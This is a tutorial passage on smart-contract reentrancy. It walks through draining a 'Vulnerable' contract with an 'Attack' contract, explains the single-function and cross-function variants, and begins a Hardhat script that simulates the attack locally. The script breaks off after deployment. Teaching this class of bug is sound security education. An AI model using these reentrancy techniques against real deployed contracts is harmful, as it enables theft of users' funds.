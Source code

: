 1 - deploy _Vulnerable_.

2 - send 4 MATICS to _Vulnerable_ (let’s imagine that other addresses sent to _Vulnerable_ before).
Now you are the hacker!

3 - deploy _Attack_ with _Vulnerable_'s address.

4 - call _Attack.hack()_ with 1 MATIC.

5 -  check your _Attack_’s balance, you have 5 MATICS and poor Vulnerable has nothing!
Before we jump to Hardhat, let's bore you with some theory!


## Types of reentrancy:
There are two main types of reentrancy attacks: single-function and cross-function. The Attack function above implements single-function reentrancy because the function that calls _fallback()_ is the same function being attacked (i.e. _withdrawAll()_). Let’s take an example of cross-function reentrancy:
It is pretty much the same as we did, except that in _fallback()_ we are going to attack Vulnerable.transfer(). In fallback(), write just this line:
```js
vulnerable.transfer(your_second_address, amount);
```
This will give your second address free credits! Again, this is because the line “balances[msg.sender] = 0” did not execute yet. This is cross-functional reentrancy because the call chain works like that:
_Vulnerable.withdrawAll()_ -> _Attack.fallback()_ -> _Vulnerable.transfer()_
So the function being attacked is not the one that called _fallback()_.  
 Isn’t this cool? But now to Hardhat, let's simulate the attack.

## Attacking in Hardhat:
 Create a _scripts_ directory, create a js file, name it Attack.js.
 This piece of code will be  a little bit long because it has some extra _console.log_ statements to explain milestones.
 
```js
 
const { ethers } = require('hardhat')

const sleep = (milliseconds) => {
    return new Promise(resolve => setTimeout(resolve, milliseconds))
}

hack = async () => {
let Vulnerable, vulnerable, Attack, attack, signers, victim, hacker, overrides, victimBalance, hackerBalance

signers = await ethers.getSigners()
victim = signers[0]
hacker = signers[1]

console.log("I am the victim and I am deploying my vulnerable contract:")
Vulnerable = await ethers.getContractFactory("Vulnerable")
overrides = {
    value: ethers.utils.parseEther("0.000000004"),
}
vulnerable = await Vulnerable.deploy(overrides)
console.log("The vulnerable contract was deployed to " + vulnerable.address)
console.log("-----------------------------------------------")

console.log("I am the hacker and I am deploying my attack contract:")
Attack = await ethers.getContractFactory("Attack")
attack = await Attack.connect(hacker).deploy(vulnerable.address)
console.log("The attack contract was deployed to " + attack.address)
console.log("-----------------------------------------------")

```